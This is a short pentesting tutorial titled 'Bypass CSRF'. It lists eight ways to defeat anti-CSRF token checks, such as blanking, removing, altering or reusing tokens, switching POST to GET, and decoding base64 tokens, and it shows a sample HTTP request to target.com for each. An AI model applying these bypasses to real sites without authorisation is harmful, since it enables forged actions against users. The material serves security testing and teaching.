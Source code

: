 ```yaml
---
title: Bypass CSRF
author: Elsfa7-110
categories: [csrf, Tutorial]
tags: [csrf]
pin: true
---
```

# Bypass CSRF Token
1. Change single character
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaab
```

2. Sending empty value of token
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=
```

3. Replace the token with same length
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaabaa
```
4. Changing POST / GET method
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
GET /register?username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: target.com
[...]
```

5. Remove the token from request
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456
```

6. Use another user's valid token
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=ANOTHER_VALID_TOKEN
```

7. Try to decrypt hash
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=MTIzNDU2
```
MTIzNDU2 => 123456 with base64

8. Sometimes anti-CSRF token is composed by 2 parts, one of them remains static while the others one dynamic
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=vi802jg9f8akd9j123
```
When we register again, the request like this
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=vi802jg9f8akd9j124
```
If you notice "vi802jg9f8akd9j" part of the token remain same, you just need to send with only static part
